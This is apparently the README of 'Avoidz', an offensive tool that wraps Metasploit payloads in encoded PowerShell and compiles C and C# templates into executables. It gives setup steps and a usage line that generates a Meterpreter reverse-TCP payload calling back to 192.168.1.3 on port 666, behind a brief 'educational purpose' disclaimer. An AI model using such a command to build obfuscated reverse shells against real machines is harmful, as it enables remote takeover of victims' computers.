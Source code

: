 ## Avoidz v 1.0 
    Author: Mascerano Bachir [ dev-labs ]

## Legal Disclamer:
    The author does not hold any responsibility for the bad use of this tool,
    remember this is only for educational purpose.

## Description:
    This tool Generate encoded powershell with metasploit payloads,convert C & C# Templates to EXE's 
 
## Screenshot:
![pic1](http://i.imgur.com/v3Jwj5g.png)

![pic2](http://i.imgur.com/L6GCvpJ.png)

<br /><br />

## Dependencies :
    1 - metasploit-framework
	2 - xterm
	3 - MinGW32
	4 - Monodevelop

## Download/Config/Usage:
    1º - Download the tool from github
         git clone https://github.com/M4sc3r4n0/avoidz.git

    2º - Set setup script execution permitions
         cd avoidz
         chmod +x setup.sh

    3°- Run setup script
         ./setup.sh == to check dependecies

    4°- Run avoidz tool == example
     ./avoidz.rb == help command
	 ./avoidz.rb -h 192.168.1.3 -p 666 -m windows/meterpreter/reverse_tcp -f temp1 == generate

## video tutorial: 
Avoidz v 1.0 temp1 generate :
